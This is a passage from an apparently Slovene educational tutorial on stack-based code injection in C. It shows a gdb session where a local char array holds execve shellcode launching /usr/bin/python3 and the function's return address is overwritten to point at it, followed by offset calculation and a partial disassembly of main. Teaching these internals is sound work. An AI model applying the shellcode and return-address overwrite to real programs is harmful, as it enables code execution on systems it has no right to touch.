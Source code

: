     int main(){
        int c, d;
        unsigned long e;
        c = 5;
        d = 3;
        e = c + d;              // e == 8
        e = callme(d, &e);		// e == 11
        c = c + e; 				// c == 16
        printf("c: %d\n", c);	
        return 0;
    }

    gcc stacky.c -g -o stacky
    ./stacky

    c: 16

Zadeva ne deluje, saj smo dodali novo spremenljivko `program` za spremenljivko `a` na našo kopico, zato razlika med naslovom spremenljivke `a` in 8 bajtov za naslovom kamor kaže register `$rsp` ni več 7 32-bitnih celih števil. Ponovno odpremo program z orodjem `gdb` in ponovno izračunamo razliko med naslovom spremenljivke `a` in vrnitvenim naslovom.

    gdb stacky

    Reading symbols from stacky...
    (gdb) break callme
    Breakpoint 1 at 0x1144: file stacky.c, line 8.
    (gdb) run
    Starting program: /home/aleks/stacky 
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

    Breakpoint 1, callme (a=3, b=0x7fffffffe050) at stacky.c:8
    7		char program[64] = "\353\016_H1\366H1\322H1\300\260;\017\005\350\355\377\377\377/usr/bin/python3";
    (gdb) s
    8	        f = (unsigned long*)(&a + X);	// Override return address.
    (gdb) s
    9	        *f = (unsigned long)&(program[0]);
    (gdb) s
    10	        return a + *b;
    (gdb) p &a
    $1 = (int *) 0x7fffffffdfec
    (gdb) p $rsp+8
    $2 = (void *) 0x7fffffffe048
    (gdb) p/x *((unsigned long*)($rsp+8)) 
    $3 = 0x555555555206
    (gdb) disassemble main
    Dump of assembler code for function main:
        0x00005555555551d1 <+0>:	push   %rbp
        0x00005555555551d2 <+1>:	mov    %rsp,%rbp
        0x00005555555551d5 <+4>:	sub    $0x10,%rsp
        0x00005555555551d9 <+8>:	movl   $0x5,-0x4(%rbp)
        0x00005555555551e0 <+15>:	movl   $0x3,-0x8(%rbp)
        0x00005555555551e7 <+22>:	mov    -0x4(%rbp),%edx
        0x00005555555551ea <+25>:	mov    -0x8(%rbp),%eax
        0x00005555555551ed <+28>:	add    %edx,%eax
        0x00005555555551ef <+30>:	cltq
        0x00005555555551f1 <+32>:	mov    %rax,-0x10(%rbp)
        0x00005555555551f5 <+36>:	lea    -0x10(%rbp),%rdx
        0x00005555555551f9 <+40>:	mov    -0x8(%rbp),%eax
        0x00005555555551fc <+43>:	mov    %rdx,%rsi
        0x00005555555551ff <+46>:	mov    %eax,%edi
        0x0000555555555201 <+48>:	call   0x555555555139 <callme>
        0x0000555555555206 <+53>:	cltq
        0x0000555555555208 <+55>:	mov    %rax,-0x10(%rbp)